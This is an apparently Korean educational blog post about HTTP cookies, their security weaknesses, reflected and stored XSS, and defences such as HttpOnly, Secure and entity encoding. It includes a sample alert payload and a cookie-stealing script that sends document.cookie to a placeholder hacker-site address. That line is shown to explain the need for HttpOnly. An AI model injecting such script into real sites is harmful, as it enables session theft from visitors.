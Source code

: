 ```yaml
---
date: '2023-09-24'
title: '쿠키 도둑 잡아라!'
category: 'computer science'
summary: '내가 만든 쿠키, 너를 위해 구운 거 아닌데..'
thumbnail: './image/cookie-thumbnail.webp'
tags: ['# Web', '# HTTP', '# cookie', '# XSS']
---
```


여러분은 쿠키에 대해서 들어보신 적이 있나요? 혹시 이렇게 생긴 음식인가요? 🍪
만약 그렇다면, 오늘은 다른 쿠키에 대해서 알아보도록 하겠습니다. 여러분도 웹사이트를 이용하다가 쿠키를 이용해보신 경험이 있을 겁니다. 아래 사진을 볼까요?

<figure>
  <img src="./image/stackoverflow-cookie.webp" alt="stackoverflow-cookie"/>
  <figcaption figcaption>스택오버플로우의 쿠키 수집 허용 팝업</figcaption>
</figure>

[스택오버플로우](https://stackoverflow.com/)에 접속하면 볼 수 있는 팝업입니다. '모든 쿠키 허용' 버튼을 클릭하면 우리 기기의 쿠키를 저장하고, 자사 쿠키 정책에 따라 정보를 공개할 수 있다고 하네요. 그렇다면 쿠키란, 대체 무엇일까요? 우리는 쿠키를 아무렇게나 허용해도 되는 것일까요?

## TL;DR

> 1. 쿠키는 HTTP 헤더를 통해 서버와 클라이언트 간에 주고 받는 데이터입니다.
> 2. XSS 공격을 통해 쿠키를 탈취당할 수 있습니다.
> 3. 쿠키 탈취를 방지하기 위해 HttpOnly, Secure 등의 옵션을 이용할 수 있습니다.
> 4. 민감한 정보를 포함하지 않는다면 쿠키 사용을 고려할 수 있습니다.

## HTTP

쿠키를 알기 위해선 먼저 HTTP에 대해서 알아야 합니다. HTTP는 **HyperText Transper Protocol**의 약어로, 간단하게 말해서 HTML 문서와 같은 리소스들을 가져올 수 있도록 해주는 일종의 규약입니다. 웹에서 이루어지는 모든 데이터 교환의 기초이고, 클라이언트-서버 프로토콜이기도 합니다. 결국 우리는 HTTP를 통해 필요한 정보를 서버에 요청하고, 마찬가지로 HTTP를 통해 요청에 대한 응답을 받는 것이죠.

HTTP는 상태가 없습니다. 이 말은, 서버가 HTTP 요청을 받았을 때 어떤 브라우저에서 보낸 요청인지 알 수 없고, 각 요청은 독립적이라는 것을 뜻합니다. 그렇다면 로그인, 사용자 지정 테마, 장바구니 등의 정보를 기록하기 위해선 어떻게 해야 할까요? 이를 해결하기 위해 등장한 것이 바로 쿠키입니다.

## 쿠키

자, 이제 쿠키에 대해서 자세히 알아보도록 하겠습니다.

쿠키는 쉽게 말해서 프론트엔드에서 저장하고 관리하는 데이터입니다. 서버에서 `Set-Cookie`를 Response Header에 담아 내려주면 클라이언트는 이를 자동으로 저장합니다. 경우에 따라서는 쿠키 데이터를 자체적으로 조작할 수도 있고, 수명을 정할 수도 있습니다.

### 쿠키의 작동 방식

<figure>
  <img src="./image/cookie-flow.webp" alt="쿠키의 작동 방식"/>
  <figcaption figcaption>쿠키의 작동 방식</figcaption>
</figure>

쿠키는 위와 같은 흐름으로 작동합니다. 브라우저가 서버에 요청을 보내면 서버는 HTTP 헤더에 쿠키를 담아서 응답합니다. 브라우저는 이를 자동으로 저장하고, 다음 요청을 보낼 때 HTTP 헤더에 저장해둔 쿠키를 담아서 전달합니다. 서버는 쿠키를 읽고 유저 정보를 확인 후 적절한 응답을 합니다. 만약 서버에서 쿠키에 업데이트가 발생한다면, 응답할 때 업데이트된 쿠키를 다시 한번 넘겨줍니다.

### Set-Cookie

쿠키는 기본적으로 서버에서 생성할 수 있고, 앞서 말씀드린 것과 같이 **Set-Cookie**라는 옵션을 통해 쿠키 정보를 설정할 수 있습니다. Set-Cookie는 Key=Value 형태로 되어 있고, 브라우저는 이 값을 파싱한 뒤 알아서 쿠키에 데이터를 저장합니다. 쿠키에는 다음과 같은 옵션을 설정할 수 있습니다.

- **Expires**: 쿠키 만료 날짜
- **Secure**: HTTPS에서만 쿠키를 전송
- **HttpOnly**: Javascript 코드를 통한 쿠키 접근을 방지 (이를 통해 XSS 공격에 대응 가능)
- **Max-Age**: 쿠키 수명 설정 (이 때, Expires는 무시)
- **Domain**: 도메인이 일치하는 요청만 쿠키 전송
- **Path**: 경로가 일치하는 요청만 쿠키 전송

<br />

참고로 하나의 Set-Cookie에는 하나의 쿠키만을 담을 수 있기 때문에 응답 헤더는 다음과 같은 형태가 됩니다.

```
HTTP/1.0 200 OK
Content-type: text/html
Set-Cookie: choco_cookie=choco; Max-Age=0; Path=<경로>
Set-Cookie: white_cookie=white
```

반면, 클라이언트는 쿠키를 전달할 때 세미 콜론(;)으로 여러 개의 쿠키를 구분하여 나열할 수 있습니다.

```
GET /sample_page.html HTTP/1.1
Host: www.example.org
Cookie: choco_cookie=choco; white_cookie=white;
```

### 쿠키의 보안성

쿠키는 브라우저에 저장되기 때문에 다음과 같은 문제를 수반합니다.

1. 쉽게 잃어버릴 수 있다.
2. 쉽게 변경될 수 있다.
3. 쉽게 도난당할 수 있다.

브라우저의 개발자 도구를 이용하면 쿠키를 쉽게 확인할 수 있고, 삭제할 수 있습니다. 또 누군가가 내가 전송한 HTTP 요청을 가로챈다면, 요청 헤더에 포함된 민감한 쿠키 정보를 열람할 수 있을 것입니다. 심지어 쿠키는 브라우저에 저장되기 때문에 자바스크립트 코드로 접근할 수도 있습니다. 이는 곧 심각한 문제로 이어지게 될 것입니다.

## XSS

이런 쿠키의 취약점을 활용한 공격 방법에 대해 알아보겠습니다.

XSS는 **Cross Site Scripting**의 약자로, 줄이면 CSS가 되는 것이 맞겠으나 CSS는 이미 Cascading Style Sheets의 어로 사용되고 있기 때문에 **XSS**라고 합니다.
XSS는 권한이 없는 사용자가 메일이나, Input, 게시판 등에 자바스크립트 등의 스크립트 코드를 삽입하여 개발자가 고려하지 않은 기능을 동작하도록 하는 공격 방법입니다.

XSS는 크게 Reflected-XSS, Stored-XSS 두 종류로 나뉩니다.

### Reflected XSS

Reflected XSS는 스크립트 코드를 입력하자마자 결과가 발생는 공격법을 말합니다. 웹 서버에 스크립트를 남기지 않는다는 것이 특징입니다. 단적인 예로 다음과 같은 상황을 가정할 수 있습니다.

`input` 창을 통해 이름을 입력 받고, 버튼을 클릭하면 이를 화면에 띄워주는 사이트가 있습니다.

<figure>
  <img src="./image/xss-input-test.webp" alt="input 예시"/>
</figure>

이름을 입력하고 제출 버튼을 클릭하면 정상적으로 작동하는 것을 확인할 수 있습니다. 그럼, 다음과 같은 스크립트 코드를 입력하면 어떻게 될까요?

`<img src="#" onerror="alert('버그 발생! 🐛')" />`

<figure>
  <img src="./image/xss-hijacking.webp" alt="스크립트 코드를 통한 XSS 공격"/>
</figure>

이렇게 `alert` 창이 실행됩니다! 지금의 경우에는 스크립트 코드에 악의적인 의도가 없어 보이지만, 공격자는 어떤 의도를 품고 있을지 모릅니다. 쿠키는 브라우저에 저장되어 있기 때문에 `document.cookie`와 같은 자바스크립트 코드로 접근할 수 있습니다. 만약 `alert` 함수 대신 `document.cookie`가 입력되어 있었다면 어떻게 될까요? 사용자의 정보가 노출되어 큰 문제가 발생할 수 있습니다. 상상만 해도 끔찍하네요😥

### Stored XSS

Stored XSS는 가장 일반적인 XSS 공격 유형으로, 스크립트 코드를 입력하고 서버에 저장되도록 합니다. 그래서 추후 사용자가 게시물을 열람할 때 공격자가 입력해놓은 스크립트 코드가 실행되어 사용자의 민감 정보가 유출되거나 기획된 공격에 노출될 수 있습니다. Reflected XSS와는 달리 서버에 스크립트를 남기기 때문에 다수의 사용자들에게 지속적으로 공격을 가할 수 있습니다.

Stored XSS는 방명록이나 게시판과 같이 기록을 남기는 공간에서 공격할 수 있습니다.

### XSS 대응 방안

1. **입력 값 제한**

   기본적으로 스크립트 코드를 삽입하지 못하도록 해야 합니다. HTML5에서는 이런 문제를 해결하기 위해 innerHTML을 통해 주입한 스크립트는 실행되지 않습니다. 하지만 `onerror` 이벤트 속성을 통해 주입한 스크립트는 여전히 작동합니다.

2. **입력 값 치환**

   `<`, `>` 등의 태그 문자를 [HTML Entity](http://www.tcpschool.com/html/html_text_entities)로 필터링 할 수 있습니다. HTML Entity는 대부분의 인터프리터에서 특수한 의미를 가지지 않기 때문에 태그로 인식되지 않습니다.

3. **httpOnly 옵션 사용**

   공격자는 다음과 같은 코드를 공개 게시판에 작성하여 사용자의 쿠키를 가로채려 시도합니다.

   ```jsx
   <script> location.href = '해커사이트주소?cookie=' + document.cookie </script>
   ```

   해당 게시물을 열람한 사용자들은 해커 사이트로 이동하여 쿠키 정보를 노출하게 됩니다. `httpOnly` 옵션을 활용하면 브라우저에서 쿠키에 접근하는 것을 방지할 수 있습니다. 브라우저에서는 일반적으로 쿠키에 접근할 일이 크게 없기 때문에 `httpOnly` 옵션은 기본적으로 적용하는 것이 좋습니다. 참고로 `httpOnly` 옵션은 브라우저에서 설정할 수 없고, 항상 서버에서만 설정할 수 있는 옵션입니다.

   ```java
   Set-Cookie: 쿠키명=쿠키값; path=/; HttpOnly
   ```

4. **Secure 옵션 사용**

   이제 `httpOnly` 옵션을 통해 브라우저에서 쿠키에 접근하는 것은 방지할 수 있습니다. 하지만 쿠키는 HTTP 헤더를 통해 전송되고, 와이어 샤크 등과 같은 프로그램으로 네트워크 감청을 할 수 있다는 것은 널리 알려진 사실입니다. 이러한 통신 상 정보 유출을 방지하기 위해 HTTPS 프로토콜을 사용하여 데이터를 암호화할 수 있습니다. 그리고 `Secure` 옵션은 HTTPS 상에서 암호화된 요청일 경우에만 쿠키를 전송하도록 합니다.

## 맺음

최근에는 쿠키의 취약점을 해결하기 위해 유저 세션 정보를 서버에서 관리하는 **세션 방식**이나, 암호화된 토큰을 이용하는 **JWT 방식**을 사용하기도 합니다. 그렇다고 해서 쿠키가 전혀 사용되지 않는 것은 아닙니다. 사용자 인증과 같은 민감 정보는 세션, 혹은 JWT 토큰으로 관리하고, 개인 설정과 같은 정보는 쿠키로 이용하는 것이 도움이 될 수 있습니다. 이처럼, 상황에 맞게 적절한 방식을 고민하고 사용하는 것이 중요하겠습니다. 이 글이 쿠키 사용을 고려하고 있는, 혹은 쿠키 허용 버튼을 아무렇게나 눌러도 되는지 고민하고 있는 분들에게 도움이 되면 좋겠습니다🙏
